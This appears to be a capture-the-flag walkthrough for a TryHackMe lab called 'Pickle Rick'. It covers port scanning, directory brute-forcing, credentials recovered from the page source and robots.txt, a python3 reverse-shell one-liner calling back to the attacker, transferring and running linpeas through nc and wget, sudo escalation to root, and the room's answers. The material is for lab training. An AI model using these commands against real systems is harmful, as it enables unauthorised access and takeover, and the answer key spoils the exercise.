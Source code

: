 # Pickle Rick

Make sure to `mkdir picklerick` and also to connect to THM VPN using the
generated config file. Something like `sudo openvpn sudoheader.ovpn`

To make things easier, add the generated IP address when you press on the "Start Machine" button:
```bash
export IP=<IP_ADDRESS>
```

## Port Scanning: NMAP
To save our scan results, make a new directory:
```bash
mkdir scan
```

Begin a `nmap` scan using the default set of scripts, versions, and output the results into files with the IP address in the name. This will create several files in different formats that we can look over to see what is available on the target.
```bash
nmap -sC -sV -oA scan/picklerick $IP
```

## Directory Brute-forcing: Gobuster
```bash
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,cgi,py,html,css,js
```

Open up Firefox and go to the web application. If we look at the files that are being used by the web app, we find an interesting one with `portal.php`.

## Credentials for `portal.php` AKA `login.php` 

Go to "View Source" on the `index.php` page, and you should find the username, as a comment, for the login.
Username:
`R1ckRul3s`

Question: What is a commonly used file to tell search engines crawlers which URLs the crawler can access?
<details><summary>Spoiler</summary><ul><li>Answer: `robots.txt`. Check the `robots.txt` for the password.</li></ul></details>
Password:
`Wubbalubbadubdub`

Start a `netcat` listener, in your attack machine of choice, with:
```bash
nc -lvnp 1234
```

We see that there is a Command Panel. We can only enter certain commands like `ls` and `echo` that work, but `cat` doesn't work.
With that said, we can try something like `grep -R .` and right-clicking on the page to `View Source` but this will output everything available to us.

Let's see if `Python` or `python3` are available.

Test with `python -c "print('hello')"` shows nothing, but with `python3`, we can see the correct output.
Now go to [[pentestmonkey.com]] and search for [[Python]] to copy the string for a `python3` reverse shell.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

After pressing `Execute`, the page should hang.
Now go back to the listener, there should be a shell available to us.

However, this shell is not stable. Let's make that possible.
On the Target machine:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Now press "Ctrl+Z" and it should background the shell and kick us back to our attack machine shell.

Enter the following to get a more stable shell:
```bash
stty raw -echo; fg
```
Press ENTER.
```bash
export TERM=xterm
```

Now that we got a stable bash shell, with directional button support and tab completion, we can upload `linpeas.sh` to see what we can escalate.

On the Attack machine:
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/linpeas.sh
chmod +x linpeas.sh
nc -q 0 -lvnp 4444 < $1 &
```

Explain shell is helpful here in explaining what the last command does:
https://explainshell.com/explain?cmd=nc+-q+0+-lvnp+4444+%3C+%241+%26#
![[explainshell.com_explain_cmd=nc+-q+0+-lvnp+4444+%3C+%241+%26.png]]

On the Target machine, replace `$IP` with your Attack machine IP and `$PORT` with the listening port we used in the previous command:
```bash
nc $IP $PORT > linpeas.sh
```

Another way of doing this is by using [[Python]] to host an `http` server and then having the target download the file.

On the Attack machine:
```bash
python3 -m http.server
```

On the Target machine, make sure to get your Attack machine IP. Replace `$IP` in this case.
```bash
wget http://$IP:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

After it has finished, we see that the user `www-data` has the ability to run any `sudo` command, so we can. `sudo bash` to obtain root privileges.

## Task 1

*Answer the questions below*
1. What is the first ingredient Rick needs?
```
mr. meeseek hair
```

2. Whats the second ingredient Rick needs?
```
1 jerry tear
```

3. Whats the final ingredient Rick needs?
```
fleeb juice
```
